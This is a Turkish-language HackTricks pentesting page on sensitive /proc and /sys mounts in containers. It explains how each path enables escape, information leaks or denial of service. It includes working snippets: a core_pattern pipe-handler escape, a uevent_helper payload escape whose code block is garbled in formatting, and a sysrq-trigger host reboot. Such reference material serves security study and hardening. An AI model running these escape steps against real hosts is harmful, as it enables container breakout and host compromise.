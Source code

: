 # Hassas Bağlantı Noktaları

<details>

<summary><strong>AWS hacklemeyi sıfırdan ileri seviyeye öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Doğru namespace izolasyonu olmadan `/proc` ve `/sys`'in maruz kalması, saldırı yüzeyinin genişlemesi ve bilgi sızdırma gibi ciddi güvenlik risklerini beraberinde getirir. Bu dizinler, yanlış yapılandırılmış veya yetkisiz bir kullanıcı tarafından erişilen hassas dosyaları içerir ve bu da konteyner kaçışına, ana bilgisayarın değiştirilmesine veya daha fazla saldırıya yardımcı olacak bilgilerin sağlanmasına yol açabilir. Örneğin, `-v /proc:/host/proc` şeklinde yanlış bağlama yapılması, yol tabanlı doğası nedeniyle AppArmor korumasını atlayabilir ve `/host/proc`'u korumasız bırakabilir.

**Her potansiyel zafiyetin daha fazla ayrıntısını** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)** adresinde bulabilirsiniz.**

## procfs Zafiyetleri

### `/proc/sys`

Bu dizin, genellikle `sysctl(2)` aracılığıyla çekirdek değişkenlerini değiştirme izni verir ve endişe kaynağı olan birkaç alt dizini içerir:

#### **`/proc/sys/kernel/core_pattern`**

* [core(5)](https://man7.org/linux/man-pages/man5/core.5.html) adresinde açıklanmıştır.
* Çekirdek dosyası oluşturulduğunda ilk 128 baytı argüman olarak alan bir programın tanımlanmasına izin verir. Dosya bir pipe `|` ile başlıyorsa kod yürütme olabilir.
*   **Test Etme ve Sömürü Örneği**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Yazma erişimini test et
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Özel işleyiciyi ayarla
sleep 5 && ./crash & # İşleyiciyi tetikle
```

#### **`/proc/sys/kernel/modprobe`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde detaylı olarak açıklanmıştır.
* Çekirdek modül yükleyicisinin yolunu içerir, çekirdek modüllerini yüklemek için çağrılır.
*   **Erişimi Kontrol Etme Örneği**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # modprobe erişimini kontrol et
```

#### **`/proc/sys/vm/panic_on_oom`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde referans gösterilmiştir.
* Bir OOM durumu meydana geldiğinde çekirdeğin çökmesini veya OOM öldürücüyü çağırmasını kontrol eden global bir bayrak.

#### **`/proc/sys/fs`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde belirtildiği gibi, dosya sistemi hakkında seçenekler ve bilgiler içerir.
* Yazma erişimi, ana bilgisayara karşı çeşitli hizmet reddi saldırılarına olanak tanır.

#### **`/proc/sys/fs/binfmt_misc`**

* Sihirli sayılarına dayalı olmayan ikili biçimler için yorumlayıcıları kaydetmeye izin verir.
* `/proc/sys/fs/binfmt_misc/register` yazılabilirse ayrıcalık yükseltmesine veya kök kabuğu erişimine yol açabilir.
* İlgili saldırı ve açıklama:
* [binfmt\_misc ile yoksul adamın kök kiti](https://github.com/toffan/binfmt\_misc)
* Detaylı öğretici: [Video bağlantısı](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Diğerleri `/proc` İçinde

#### **`/proc/config.gz`**

* `CONFIG_IKCONFIG_PROC` etkinse çekirdek yapılandırmasını ortaya çıkarabilir.
* Çalışan çekirdekteki zafiyetleri belirlemek için saldırganlar için faydalıdır.

#### **`/proc/sysrq-trigger`**

* Sysrq komutlarını çağırmaya izin verir, potansiyel olarak anında sistem yeniden başlatmalar veya diğer kritik işlemlere neden olabilir.
*   **Ana Bilgisayarı Yeniden Başlatma Örneği**:

```bash
echo b > /proc/sysrq-trigger # Ana bilgisayarı yeniden başlatır
```

#### **`/proc/kmsg`**

* Çekirdek halka tamponu mesajlarını açığa çıkarır.
* Çekirdek saldırılarına, adres sızıntılarına ve hassas sistem bilgilerinin sağlanmasına yardımcı olabilir.

#### **`/proc/kallsyms`**

* Çekirdek dışa aktarılan sembolleri ve adreslerini listeler.
* Özellikle KASLR'yi aşmak için çekirdek saldırı geliştirme için temel öneme sahiptir.
* Adres bilgileri `kptr_restrict`'in `1` veya `2` olarak ayarlanmasıyla sınırlıdır.
* Detaylar [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde bulunabilir.

#### **`/proc/[pid]/mem`**

* Çekirdek bellek cihazı `/dev/mem` ile etkileşim sağlar.
* Tarihsel olarak ayrıcalık yükseltme saldırılarına karşı savunmasızdır.
* Daha fazlası [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde bulunabilir.

#### **`/proc/kcore`**

* Sistemin fiziksel belleğini ELF çekirdek biçiminde temsil eder.
* Okuma, ana bilgisayar sistemi ve diğer konteynerlerin bellek içeriğini sızdırabilir.
* Büyük dosya boyutu okuma sorunlarına veya yazılım çökmelerine yol açabilir.
* Detaylı kullanım [2019'da /proc/kcore Dökme](https://schlafwandler.github.io/posts/dumping-/proc/kcore/) adresinde bulunabilir.

#### **`/proc/kmem`**

* Çekirdek sanal belleği temsil eden `/dev/kmem` için alternatif arayüz.
* Okuma ve yazma izni verir, dolayısıyla çekirdek belleğinin doğrudan değiştirilmesine olanak tanır.

#### **`/proc/mem`**

* Fiziksel belleği temsil eden `/dev/mem` için alternatif arayüz.
* Okuma ve yazma izni verir, tüm belleğin değiştirilmesi sanal adreslerin fiziksel adreslere çözülmesini gerektirir.

#### **`/proc/sched_debug`**

* PID ad alanı korumalarını atlayarak işlem zamanlama bilgilerini döndürür.
* İşlem adlarını, kimlikleri ve cgroup tanımlayıcılarını açığa çıkarır.

#### **`/proc/[pid]/mountinfo`**

* İşlem montaj adalanındaki bağlantı noktaları hakkında bilgi sağlar.
* Konteyner `rootfs` veya görüntünün konumunu açığa çıkarır.

### `/sys` Zafiyetleri

#### **`/sys/kernel/uevent_helper`**

* Çekirdek cihaz `uevent`'leri işlemek için kullanılır.
* `/sys/kernel/uevent_helper`'a yazmak, `uevent` tetikleyicileri üzerine keyfi komut dosyalarını yürütebilir.
*   **Sömürü için Örnek**: %%%bash

## Bir yük oluşturur

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

## Konteyner için OverlayFS bağlamından ana bilgisayar yolunu bulur

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

## uevent\_helper'ı kötü niyetli yardımcıya ayarlar

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

## Bir uevent tetikler

echo change > /sys/class/mem/null/uevent

## Çıktıyı okur

cat /output %%%
#### **`/sys/class/thermal`**

* Sıcaklık ayarlarını kontrol eder, olası DoS saldırılarına veya fiziksel hasara neden olabilir.

#### **`/sys/kernel/vmcoreinfo`**

* Kernel adreslerini sızdırır, KASLR'ı tehlikeye atabilir.

#### **`/sys/kernel/security`**

* `securityfs` arayüzünü barındırır, AppArmor gibi Linux Güvenlik Modülleri'nin yapılandırılmasına izin verir.
* Erişim, bir konteynerin MAC sistemini devre dışı bırakmasına olanak tanıyabilir.

#### **`/sys/firmware/efi/vars` ve `/sys/firmware/efi/efivars`**

* NVRAM'daki EFI değişkenleriyle etkileşim için arayüzler sunar.
* Yanlış yapılandırma veya kötüye kullanım, tuğla gibi olan dizüstü bilgisayarlar veya başlatılamayan ana bilgisayar makinelerine yol açabilir.

#### **`/sys/kernel/debug`**

* `debugfs`, çekirdeğe "kurallar olmadan" hata ayıklama arayüzü sunar.
* Sınırsız doğası nedeniyle güvenlik sorunları geçmişi bulunmaktadır.

### Referanslar

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman seviyesine öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **tanıtmak istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** takip edin**.
* **Hacking püf noktalarınızı paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
